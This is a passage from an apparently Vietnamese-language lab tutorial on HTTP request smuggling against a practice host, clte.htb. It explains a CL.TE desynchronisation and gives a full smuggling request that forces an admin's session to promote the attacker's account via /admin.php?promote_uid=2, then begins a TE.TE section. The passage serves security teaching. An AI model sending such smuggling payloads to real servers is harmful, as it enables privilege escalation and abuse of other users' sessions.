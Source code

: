 **Từ góc nhìn của web server:**
- Web server thấy phần dữ liệu còn lại là `HELLOGET / HTTP/1.1`, biến request thành:
  ```http
  HELLOGET / HTTP/1.1
  Host: clte.htb
  ```

Kết quả: Một HTTP method không hợp lệ (`HELLOGET`), dẫn đến lỗi `HTTP 405 - Method not allowed`.

#### **4. Khai thác lỗ hổng**

Giả sử chúng ta muốn ép buộc admin thực hiện một hành động trái phép, ví dụ: nâng cấp quyền của người dùng qua endpoint `/admin.php?promote_uid=2`. Ta có thể gửi yêu cầu như sau:

```http
POST / HTTP/1.1
Host: clte.htb
Content-Length: 52
Transfer-Encoding: chunked

0

POST /admin.php?promote_uid=2 HTTP/1.1
Dummy:
```

**Giải thích:**
- Proxy sẽ sử dụng `Content-Length: 52` để đọc toàn bộ request.
- Tuy nhiên, web server sẽ sử dụng chunked encoding và kết thúc request sau `0\r\n\r\n`.
- Yêu cầu tiếp theo sẽ là:
  ```http
  POST /admin.php?promote_uid=2 HTTP/1.1
  Dummy: GET / HTTP/1.1
  Host: clte.htb
  Cookie: sess=<admin_session_cookie>
  ```

**Kết quả:**
- Web server thấy yêu cầu thứ hai là một POST request tới `/admin.php?promote_uid=2`, sử dụng session cookie của admin.
- Điều này dẫn đến việc tài khoản của chúng ta được nâng cấp quyền mà không cần sự cho phép của admin.

#### **5. Xác nhận lỗ hổng và khai thác**

- Để kiểm tra lỗ hổng, bạn có thể gửi các request trên qua Burp Repeater. Quan sát phản hồi HTTP `405 Method Not Allowed` cho thấy rằng có sự desynchronization.
- Sau khi xác nhận lỗ hổng, gửi request khai thác và đợi admin truy cập vào trang, bạn sẽ thấy rằng tài khoản đã được nâng cấp quyền.

---
# 10. Khai thác lỗ hổng HTTP Request Smuggling - TE.TE Vulnerability
Trong ví dụ về HTTP request smuggling này, ta sẽ xem xét một tình huống trong đó cả reverse proxy và web server đều hỗ trợ encoding theo chunked. Tuy nhiên, một trong hai hệ thống không tuân theo đúng tiêu chuẩn, dẫn đến việc có thể thao túng header TE (Transfer-Encoding) sao cho một trong hai hệ thống chấp nhận nó, trong khi hệ thống còn lại lại bỏ qua và thay vào đó sử dụng header CL (Content-Length). Lỗ hổng này được gọi là lỗ hổng **TE.TE**. Dưới đây là các bước để nhận diện và khai thác lỗ hổng này.

